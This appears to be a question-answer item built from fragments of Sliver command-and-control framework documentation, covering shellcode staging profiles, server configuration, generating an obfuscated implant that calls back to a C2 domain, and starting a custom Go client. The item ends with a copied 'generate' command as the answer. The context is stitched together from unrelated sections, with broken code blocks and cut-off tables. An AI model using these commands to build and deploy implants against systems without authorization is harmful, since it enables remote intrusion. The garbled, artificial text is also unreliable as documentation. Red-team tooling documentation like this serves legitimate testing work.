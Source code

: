 Context:**⚠️ Important:** You must have MinGW installed on your Sliver server to get some staged (e.g., Windows DLLs) payloads to work.  
## Overview  
As payloads can be pretty big (around 10MB), you may sometime require the use of stagers to execute your implant on a target system.  
Sliver supports the `meterpreter` staging protocol over TCP and HTTP(S). This protocol is pretty straight forward:  
- read the size of the stage 2 payload on the wire (the first 4 bytes for the TCP stager)
- download the stage 2
- allocate the size read in the first step, and write the stage in memory  
For this to work, we need the following pieces:  
- a staging server (the Sliver server)
- a stage 2 payload (usually a Sliver shellcode, but can be in other formats)
- stagers (generated by `msfvenom`, the Sliver `generate stager` command, or a custom one)  
## Example  
Sliver implements staging by reusing the profiles feature. Profiles are sorts of implant blueprints that define a configuration to be reused by the `profiles new` command.
The following command creates a new profile that we will use for our staging listener:  
```
sliver > profiles new --mtls 192.168.122.1 --format shellcode win-shellcode

[*] Saved new profile win-shellcode

sliver > profiles

Name           Platform       Command & Control              Debug  Format      Obfuscation   Limitations
====           ========       =================              =====  ======      ===========   ===========
win-shellcode  windows/amd64  [1] mtls://192.168.122.1:8888  false  SHELLCODE   enabled
### General Server Configuration  
Starting in version 1.0.0 the Sliver server has a configuration file located the `configs` sub-directory of the [`SLIVER_ROOT_DIR`](/docs?name=Environment+Variables), by default this will be `~/.sliver/configs/server.json`. If no configuration file exists, a default configuration will be generated and written to disk on startup. The default configuration is shown below:  
#### Default Server Config  
```json
{
"daemon_mode": false,
"daemon": {
"host": "",
"port": 31337
},
"logs": {
"level": 4,
"grpc_unary_payloads": false,
"grpc_stream_payloads": false
}
}
Sliver supports proxy-aware C2 over both HTTP and HTTPS, however since Sliver does not rely upon the SSL/TLS layer for security these protocols are considered somewhat synonymous. There are separate commands for the listeners but an implant generated with `--http` may attempt to connect over both HTTP and HTTPS (see "under the hood" for more details).  
## Generate the Implant  
Sliver implants are compiled with a baked-in (but obfuscated of course) server domain that they will reach back out to. To generate a sliver implant that communicates to a server at `example.com` run the following:  
#### Basic Example  
```
sliver > generate --http example.com --os mac

[*] Generating new darwin/amd64 implant binary
[*] Build completed in 00:00:05
[*] Implant saved to /Users/moloch/Desktop/WORKING_HACIENDA
Although the `sliver-client` is the default way to interact with a `sliver-server` and with implant sessions, there might be a time where you would want to automate some tasks upon reception of certain events.  
To do so, one case use [sliver-script](https://github.com/moloch--/sliver-script), [sliver-py](https://github.com/moloch--/sliver-py) or write a custom client in another language. As all the communications between the client and the server are based on gRPC, any language with gRPC support should in theory be used to create a custom client.  
## Writing a Go client  
In this example, we will focus on writing a custom Go client that executes a new system command on every new implant that connects to the sliver server.  
Create a new Go project somewhere on your file system:  
```
mkdir sliver-custom-client
cd sliver-custom-client
touch main.go
go mod init github.com/<your-username>/<your-project-name>
go get github.com/bishopfox/sliver

 Question: Provide a complete example of using the generate command in Sliver to create a payload. The example should include common parameters and the expected output. Respond with just a few command line. 

 Your response: 
```
sliver > generate --http example.com --os mac
[*] Generating new darwin/amd64 implant binary
[*] Build completed in 00:00:05
[*] Implant saved to /Users/moloch/Desktop/WORKING_HACIENDA
```